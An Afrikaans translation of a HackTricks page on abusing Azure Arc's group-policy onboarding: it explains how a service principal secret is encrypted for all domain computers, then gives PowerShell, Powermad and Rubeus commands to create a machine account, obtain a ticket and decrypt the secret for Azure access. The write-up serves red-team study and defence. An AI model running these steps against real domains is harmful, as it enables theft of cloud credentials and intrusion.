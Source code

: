 # Az - Azure Arc Kwesbare GPO Implementering Skrip

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

- As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
- Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
- Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
- **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

### Identifisering van die Probleme

Azure Arc maak die integrasie van nuwe interne bedieners (aangeslote domeinbedieners) in Azure Arc moontlik deur die Groepbeleidsobject-metode. Om dit te fasiliteer, voorsien Microsoft 'n implementeringshulpmiddel wat nodig is om die aanboordprosedure te begin. Binne die ArcEnableServerGroupPolicy.zip-lêer kan die volgende skripte gevind word: DeployGPO.ps1, EnableAzureArc.ps1, en AzureArcDeployment.psm1.

Wanneer uitgevoer, voer die DeployGPO.ps1-skrip die volgende aksies uit:

1. Skep die Azure Arc Bedieners Aanboord GPO binne die plaaslike domein.
2. Kopieer die EnableAzureArc.ps1 aanboordskrip na die aangewese netwerk-aandeel wat geskep is vir die aanboordproses, wat ook die Windows-installeerpakket bevat.

Wanneer hierdie skrip uitgevoer word, moet stelseladministrateurs twee hoofparameters voorsien: **ServicePrincipalId** en **ServicePrincipalClientSecret**. Daarbenewens vereis dit ander parameters soos die domein, die FQDN van die bediener wat die aandeel huisves, en die aandeelnaam. Verdere besonderhede soos die huurder-ID, hulpbrongroep, en ander nodige inligting moet ook aan die skrip voorsien word.

'n Versleutelde geheim word gegenereer in die AzureArcDeploy-gids op die gespesifiseerde aandeel deur DPAPI-NG-versleuteling te gebruik. Die versleutelde geheim word gestoor in 'n lêer met die naam encryptedServicePrincipalSecret. Bewyse hiervan kan gevind word in die DeployGPO.ps1-skrip, waar die versleuteling uitgevoer word deur ProtectBase64 te roep met $descriptor en $ServicePrincipalSecret as insette. Die beskrywer bestaan uit die Domeinrekenaar en Domeinbeheerder-groep-SID's, wat verseker dat die ServicePrincipalSecret slegs deur die Domeinbeheerders en Domeinrekenaars sekerheidsgroepe ontsluit kan word, soos aangedui in die skripskommentaar.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Uitbuiting

Ons het die volgende toestande:

1. Ons het suksesvol die interne netwerk binne gedring.
2. Ons het die vermoë om 'n rekenaarrekening binne Active Directory te skep of oor te neem.
3. Ons het 'n netwerk-aandeel ontdek wat die AzureArcDeploy-gids bevat.

Daar is verskeie metodes om 'n rekenaarrekening binne 'n AD-omgewing te verkry. Een van die mees algemene is om die rekenaarrekening kwota uit te buit. 'n Ander metode behels die kompromittering van 'n rekenaarrekening deur kwesbare ACL's of verskeie ander verkeerde konfigurasies.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Sodra 'n masjienrekening verkry is, is dit moontlik om te verifieer met behulp van hierdie rekening. Ons kan die runas.exe bevel met die netonly vlag gebruik of pass-the-ticket met Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Deur die TGT vir ons rekenaarrekening in die geheue gestoor te hê, kan ons die volgende skrips gebruik om die dienshoofgeheime te dekripteer.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatiewelik kan ons [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) gebruik.

Op hierdie punt kan ons die oorblywende inligting wat nodig is om met Azure te verbind uit die ArcInfo.json-lêer versamel, wat op dieselfde netwerk-aandeel as die encryptedServicePrincipalSecret-lêer gestoor word. Hierdie lêer bevat besonderhede soos: TenantId, servicePrincipalClientId, ResourceGroup, en meer. Met hierdie inligting kan ons Azure CLI gebruik om as die gekompromitteerde diensprinsipaal te verifieer.

## Verwysings

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
